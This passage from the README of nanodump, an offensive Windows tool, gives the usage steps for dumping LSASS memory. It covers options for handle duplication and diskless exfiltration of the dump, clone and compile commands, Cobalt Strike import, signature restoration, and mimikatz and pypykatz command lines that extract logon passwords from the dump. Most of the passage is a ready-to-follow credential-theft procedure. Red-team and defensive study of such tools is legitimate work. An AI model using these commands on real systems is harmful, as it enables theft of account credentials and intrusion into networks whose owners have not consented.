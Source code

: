 ```
            open a handle to LSASS with low privileges and duplicate it to gain higher privileges
Miscellaneous:
    --getpid
            print the PID of LSASS and leave
    --chunk-size
            chunk size in KiB used to exfiltrate the dump without touching disk (default 900)
Help:
    --help, -h
            print this help message and leave

```

<h3>Clone</h3>

```bash
git clone https://github.com/fortra/nanodump.git
```

<h3>Compile (optional)</h3>

<b>On Linux with MinGW</b>

```bash
make -f Makefile.mingw
```

<b>On Windows with MSVC</b> (No BOF support)

```bash
nmake -f Makefile.msvc
```

<h3>Import (CobaltStrike only)</h3>

Import the `NanoDump.cna` script on Cobalt Strike.

<h3>Run</h3>

Run the `nanodump` command in the Beacon console or the `nanodump.x64.exe` binary.

<h3>Restore the signature</h3>

If you didn't specify the `--valid` flag, you need to restore the invalid signature
```zsh
scripts/restore_signature <dumpfile>
```

<h3>Get the secretz</h3>

<b>mimikatz:</b>  
To get the secrets simply run:
```sh
mimikatz.exe "sekurlsa::minidump <dumpfile>" "sekurlsa::logonPasswords full" exit
```

<b>pypykatz:</b>  
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz):  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```
